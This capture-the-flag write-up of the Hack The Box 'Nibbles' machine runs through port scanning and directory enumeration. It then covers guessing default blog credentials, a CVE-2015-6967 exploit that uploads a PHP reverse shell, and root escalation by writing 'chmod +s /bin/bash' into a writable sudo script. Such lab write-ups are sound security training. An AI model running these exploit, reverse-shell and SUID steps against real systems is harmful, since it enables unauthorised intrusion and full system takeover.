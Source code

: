 ```yaml
---
title: "HTB Nibbles"
date: 2022-12-18T18:22:03-05:00
draft: false
---
```


#### Initial nmap
```bash
sudo nmap -p- -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

#### Concentrated nmap

```bash
sudo nmap -p 22,80 -A -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   42.51 ms 10.10.14.1
2   42.63 ms 10.129.30.217
```

#### Port 80 - 

It looks like a static webpage
![[Pasted image 20221218153404.png]]

Since there are only two ports open I will run gobuster and see if I can find any directories that may be on the site.

![[Pasted image 20221218154839.png]]

No luck with directory brute-forcing, but if I check the source of the webpage we get a bit of a hint.

![[Pasted image 20221218161817.png]]

If i navigate to the webpage `http://$IP/nibbleblog/` it looks like a blog page.

![[Pasted image 20221218161936.png]]

Using gobuster we can look for subdirectories inside /nibbleblog/ 

![[Pasted image 20221218162145.png]]

Navigating to the readme file at `http://$IP/nibbleblog/README`

we can see the version the blog is running

![[Pasted image 20221218162251.png]]
After doing some research on google, I found there is a RCE on this version of nibbleblog, but we need to be authenticated. 

I will try default credentials i.e. `admin:admin` etc.

after doing this for a bit I tried `admin:nibbles` and it was successful! Now we can move forward with the RCE.

#### RCE - 

I will be using this script from github (https://github.com/dix0nym/CVE-2015-6967) combined with the php reverse shell which can be found here (https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

when you setup the php reverse shell be sure to edit the file and add your IP & port that you will be listening on.
![[Pasted image 20221218163807.png]]

Once finished you can proceed with these steps

```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git
```

```bash
chmod +x exploit.py
```

```bash
python3 exploit.py --url http://10.129.30.217/nibbleblog/ --username admin --password nibbles --payload shell.php
```

After running the script check your reverse shell and you should see the following - 

![[Pasted image 20221218164105.png]]

Upgrading our shell (make the reverse shell more stable)

```bash
which python3

/usr/bin/python3
```

Great, we can use python3 to upgrade our shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

after running you should see this - 
![[Pasted image 20221218164331.png]]

Now we can make it even better with the following - 

```
ctrl+z (this will drop you into your host/vm terminal)
```

When in your host shell 

```bash
stty raw -echo ; fg (Hit enter, nothing will happen, but hit enter again and you will be back into the shell as nibbler@Nibbles)
```

![[Pasted image 20221218164640.png]]

Next we can export TERM 

```bash 
export TERM=xterm-256color
```

#### PrivEsc

As the user nibbler we can run a script using sudo 

![[Pasted image 20221218165025.png]]

the files are zipped up but we can fix that.

```bash
unzip personal.zip
```

```bash
cd personal/stuff
```

```bash
ls -la 

drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We can write to this file, so lets add something we can abuse to gain root access!

```bash
echo "chmod +s /bin/bash" >> monitor.sh
```

execute the script as sudo 

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

this should set the bash binary to has a SUID bit set this will allow us to execute bash as root. We can do this with the following command.

```bash
bash -p
```

After running that you should see this - 

![[Pasted image 20221218165704.png]]

and if you run whoami it will say `root`

you can gather the flags from the user & root directory.


